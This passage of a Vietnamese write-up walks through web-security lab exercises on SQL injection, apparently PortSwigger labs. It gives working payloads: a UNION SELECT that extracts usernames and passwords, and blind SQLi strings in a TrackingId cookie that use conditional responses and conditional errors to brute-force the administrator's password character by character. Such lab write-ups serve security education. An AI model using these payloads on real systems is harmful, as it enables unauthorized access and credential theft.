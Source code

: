 SELECT tất cả các giá trị trong hai columns "USERNAME_SAMKHP" và "PASSWORD_TOTGCL" bằng cách thay URL thành `/filter?category=Lifestyle%27%20UNION%20SELECT%20USERNAME_SAMKHP,PASSWORD_TOTGCL%20FROM%20USERS_HJWWRD--`, ta thu được username và password của administrator.

![image](https://user-images.githubusercontent.com/103978452/201877501-415166ea-7846-4938-9147-3f19be65075f.png)

Sử dụng thông tin đã có để đăng nhập, kết quả thành công.

# 11. Blind SQL injection with conditional responses
Chức năng tracking của website có lỗi SQLi.

Khi thay đổi TrackingId thành `ah7mfSgFKxjX3Exh' and 1=(select case when(1=1) then 1 else 2 end)--` thì dòng "Welcome back" được hiển thị, còn nếu thay đổi `1=1` thành `1=2` thì lại không xuất hiện. Như vậy ta sẽ tấn công sử dụng conditional responses.

![image](https://user-images.githubusercontent.com/103978452/201892778-461be474-8dec-463a-823d-b4c18580e821.png)

Thay đổi TrackingId thành `ah7mfSgFKxjX3Exh' and 1=(select case when length(password)=10 then 1 else 2 end)--` rồi thực hiện bruteforce với độ dài password từ 1 đến 30. Ta thấy chỉ với length=20 thì dòng "Welcome back" mới xuất hiện.

![image](https://user-images.githubusercontent.com/103978452/201893944-f1d76799-4488-44aa-9b2f-6cf6b195a259.png)

Thay đổi TrackingId thành `ah7mfSgFKxjX3Exh' and 1=(select case when substring(password,1,1)='a' then 1 else 2 end from users where username='administrator')--` rồi tiến hành bruteforce với các giá trị từ a-z, 0-9. Ta thấy chỉ với giá trị 'm' thì "Welcome back" mới xuất hiện. Như vậy ký tự đầu tiên của password là 'm'.

![image](https://user-images.githubusercontent.com/103978452/201895967-446f92d4-b59f-4eb9-b061-6632785f5944.png)

Tiến hành tương tự với các ký tự còn lại từ 2 đến 20, ta thu được password là "mqljyhp93s7hu2zqpmid". Sử dụng thông tin thu được để đăng nhập, kết quả thành công.

# 12. Blind SQL injection with conditional errors
Chức năng tracking của website có lỗi SQLi.

Ta thay đổi cookie TrackingId thành `tjUeQ8E2Evymji7b' and 1=(select case when (1=1) then to_char(1/0) else null end from dual)--` thì thấy kết quả trả về lỗi, còn nếu thay `1=1` thành `1=0` thì sẽ không hiển thị lỗi. Như vậy ta sẽ tấn công sử dụng conditional errors.

![image](https://user-images.githubusercontent.com/103978452/201891180-f9f5e10c-b51c-49ea-9f88-671fb8e270e1.png)

Thay cookie TrackingId thành `tjUeQ8E2Evymji7b' and 1=(select case when length(password)=10 then to_char(1/0) else null end from users where username='administrator')--` rồi thực hiện bruteforce với độ dài của password, ta thấy chỉ với length=20 thì kết quả trả về error.

![image](https://user-images.githubusercontent.com/103978452/201885945-0373c361-109b-4a37-9575-f20d1e7736bb.png)

Thay đổi cookie TrackingId thành `tjUeQ8E2Evymji7b' and 1=(select case when substr(password,1,1)='a' then to_char(1/0) else null end from users where username='administrator')--` rồi tiến hành bruteforce với các giá trị từ a-z, 0-9. Ta thấy chỉ với ký tự 'f' thì mới xuất hiện lỗi. Như vậy ký tự đầu tiên của password là 'f'.
